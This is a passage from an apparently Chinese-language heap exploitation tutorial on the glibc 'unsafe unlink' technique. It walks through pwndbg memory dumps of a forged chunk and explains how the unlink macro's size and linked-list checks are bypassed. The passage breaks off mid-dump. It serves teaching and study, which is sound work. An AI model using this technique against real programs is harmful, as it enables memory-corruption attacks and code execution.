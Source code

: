 回到正题：

这里由于chunk1的PREV_INUSE为0，导致在释放chunk1时误认为前面的chunk0也处于释放状态，这时会根据chunk1的mchunk_prev_size标志位进行向后合并。在unlink之前的内存如下：

```c
pwndbg>  x/350gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
......
0x555555757250:	0x0000000000000000	0x0000000000000431 #chunk0
#p----------->:	0x0000000000000000	0x0000000000000000
0x555555757270:	0x0000555555756008	0x0000555555756010
    			#fake_chunk_fd		#fake_chunk_bk
......
//chunk1_hdr->:	0x0000000000000420	0x0000000000000430 #chunk1
		  #chunk1_hdr[0] = malloc_size  #chunk1_hdr[1] &= ~1
......
0x555555757ab0:	0x0000000000000000	0x0000000000020551 #top_chunk
......
0x555555757ae0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

现在开始进行unlink，宏代码如下：

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))   【检查1】   
      malloc_printerr ("corrupted size vs. prev_size");			      
    FD = P->fd;								      
    BK = P->bk;								      
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))	【检查2】	      
      malloc_printerr ("corrupted double-linked list");			      
    else {								      
        //省略有关于largebin的代码......							      
      }									      
}
```

这里再回顾一下unlink的检查机制，首先先看【检查1】：

+ chunksize(P)==0x0
+ prev_size (next_chunk(P))==prev_size (P)==0x0

所以chunksize(P)==prev_size (next_chunk(P))可以绕过【检查1】

然后：

FD = P->fd==fake_chunk_fd==0x0000555555756008

BK = P->bk==fake_chunk_bk==0x0000555555756010

```c
pwndbg> x/6gx &chunk0_ptr 
0x555555756020 <chunk0_ptr>:	0x0000555555757260	0x0000000000000000
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
pwndbg> x/6gx &chunk1_ptr 
0x7fffffffdd90:	0x0000555555757690	0x0000555555757680
    								#&chunk1_hdr==0x555555757680
    	                 #uint64_t *chunk1_hdr = chunk1_ptr - header_size;
......
pwndbg> x/16gx 0x0000555555756010
0x555555756010 <stdout@@GLIBC_2.2.5>:	0x00007ffff7dce760	0x0000000000000000
0x555555756020 <chunk0_ptr>:	0x0000555555757260	0x0000000000000000
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx 0x555555756008
```
